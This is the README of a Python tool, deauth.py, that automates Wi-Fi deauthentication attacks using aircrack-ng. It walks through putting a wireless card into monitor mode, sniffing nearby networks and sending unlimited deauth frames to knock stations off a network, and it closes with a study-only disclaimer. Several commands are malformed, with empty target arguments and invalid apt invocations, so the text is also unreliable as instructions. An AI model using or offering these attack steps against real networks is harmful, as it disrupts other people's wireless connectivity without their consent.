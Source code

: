 # Introduction
Wifi deauthentication attack allows attackers to send frames from an access point to a station,even though the attack is not in the network.

Actually, send deauthentication frame is a normal functionality on all routers, almost all routers need to send special frames to inform rogue station to get out of network.

# Requirement
1. aircrack-ng
    ```
    su apt-get install aircrack-ng
    ```
    
2. ifconfig
    ```
    su apt-get install net-tools
    ```

3. iwconfig
    ```
    su sudo apt install wireless-tools
    ```

4. mac_address.csv

    the *mac_address.csv* contains OUI(Orgnazition Unique identifier)s and corresponds company names. first column is OUI and second column is Company.
    
    format:
    ```
    oui,company
    xx:xx:xx,xxx
    xx:xx:xx:x,xxx
    ```
    
    I downloaded *mac_address.csv* from [https://macaddress.io/database/macaddress.io-db.csv](https://macaddress.io/database/macaddress.io-db.csv), edit the file to only contain *oui* and *company* column,rename the file to *macaddress.csv*. then move the *macaddress.csv* file into the same directory as *deauth.py*.
    

# The Core Concept

This project completely builds on `aircrack-ng` package. below is core steps how to pose a deauthentication attack on the shell.

1. check the wireless interface name

    ```
    iwconfig
    ```

2. put wireless interface into monitor mode

    ```
    airmon-ng start wlan0
    ```

3. check the wireless interface name again

    Normally, the step2 will change the wireless interface's name. in the majority of cases, it will append `mon` on the previous name's end.
    ```
    iwconfig
    ```

4. sniff data on traffics
    ```
    airodump-ng wlan0mon
    ```

5. sniff data on specific network traffic

    ```
    airodump-ng -d -c  wlan0mon
    ```

6. send deauthentication frames

    ```
    aireplay --deauth 0 -a -c wlan0mon
    ```


# How to use deauth.py
1. download deauth

    ```
    su apt-get wget 
    ```
    
2. run it with python3.x

    ```
    python3 deauth.py
    ```

# Disclaimer
Don't use this project to do any illegal things. it's only used for the study. responsibilities arising from the use of this project have nothing to do with the author.


